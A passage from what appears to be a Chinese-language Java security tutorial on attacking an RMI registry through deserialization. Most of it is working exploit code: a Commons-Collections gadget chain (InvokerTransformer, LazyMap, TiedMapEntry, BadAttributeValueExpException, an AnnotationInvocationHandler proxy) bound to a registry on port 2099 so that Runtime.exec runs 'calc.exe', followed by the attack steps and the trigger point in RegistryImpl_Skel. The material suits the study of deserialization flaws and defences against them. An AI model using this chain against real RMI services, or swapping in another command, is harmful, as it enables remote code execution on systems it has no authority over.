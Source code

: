 ```java

            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            Transformer transformer = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map ouputMap = LazyMap.decorate(innerMap, transformer);

            TiedMapEntry tiedMapEntry = new TiedMapEntry(ouputMap, "pwn");
            BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);

            Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
            field.setAccessible(true);
            field.set(badAttributeValueExpException, tiedMapEntry);

            Map tmpMap = new HashMap();
            tmpMap.put("pwn", badAttributeValueExpException);
            Constructor<?> ctor = null;
            ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, tmpMap);
            Remote remote = Remote.class.cast(Proxy.newProxyInstance(HelloServer.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));
            Registry registry = LocateRegistry.getRegistry(2099);
            registry.bind("hello1", remote);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
#### 攻击流程
1. 开启注册中心
2. 运行服务端代码
3. 注册中心反序列化，弹出计算器

其触发的反序列化位置在`sun.rmi.registry.RegistryImpl_Skel#dispatch`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211118110403.png)


### 注册中心攻击服务端
参考[这篇文章](https://mp.weixin.qq.com/s/Ww_IxNLXI0KWZYERGwu3bg)
